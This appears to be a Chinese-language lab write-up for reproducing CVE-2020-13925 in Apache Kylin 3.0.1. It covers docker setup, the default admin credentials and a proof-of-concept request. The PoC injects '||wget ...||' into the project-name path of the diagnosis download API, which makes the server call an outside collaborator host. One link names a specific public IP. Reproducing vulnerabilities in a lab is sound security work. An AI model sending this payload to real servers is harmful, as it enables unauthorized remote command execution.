


# CVE-2020-13925

### 环境搭建


参考 [https://github.com/apache/kylin](https://github.com/apache/kylin) 使用docker进行环境部署，修改其中的版本为3.0.1（存在漏洞的版本）。可以去除 【-m 8G \ 】它的作用是分配内存的大小。


然后访问 [http://host:7070/kylin/login](http://127.0.0.1:7070/kylin/login) 初始用户名和密码是 `ADMIN/KYLIN`。

```bash
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
    -m 8G \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.1
    
docker run -d \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.1
```


### 漏洞验证PoC


```python
原始请求：
http://host:port/kylin/api/diag/project/learn_kylin/download
        
PoC请求，GET方法：
http://host:port/kylin/api/diag/project/%7c%7cwget%20h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net%7c%7c/download

即将项目名称“learn_kylin”替换为如下payload访问即可：
||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||
```


### 复现步骤

访问 System-Configuration-Diagnosis。触发下载诊断信息的请求 [http://host:port/kylin/api/diag/project/learn_kylin/download](http://120.76.179.151:7070/kylin/api/diag/project/learn_kylin/download)


即将项目名称“learn_kylin”替换为如上payload访问即可。




### 参考链接

https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ